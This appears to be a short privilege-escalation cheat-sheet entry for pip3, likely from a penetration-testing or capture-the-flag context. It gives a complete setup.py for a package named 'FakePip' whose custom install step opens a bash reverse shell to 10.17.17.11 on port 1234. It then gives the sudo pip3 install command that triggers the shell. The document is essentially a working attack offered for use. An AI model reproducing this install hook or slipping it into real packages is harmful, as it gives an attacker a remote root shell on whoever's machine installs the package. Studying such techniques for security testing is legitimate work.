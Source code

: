 # pip3
```text-plain
from setuptools import setup
from setuptools.command.install import install
import base64 
import os
class CustomInstall(install):
        def run(self):
                install.run(self)
                os.system("bash -c 'bash -i >& /dev/tcp/10.17.17.11/1234 0>&1' ")

setup(name='FakePip',
        version='0.0.1',
        description='this is nice',
        author='123',
        author_email='and@gmail.com',
        license='MIT',
        zip_safe=False,
        cmdclass={'install': CustomInstall})
```

name file as setup.py, make an empty directory with only this file and run

```text-plain
sudo -u <user> /usr/bin/pip3 install . --upgrade --force-reinstall
```
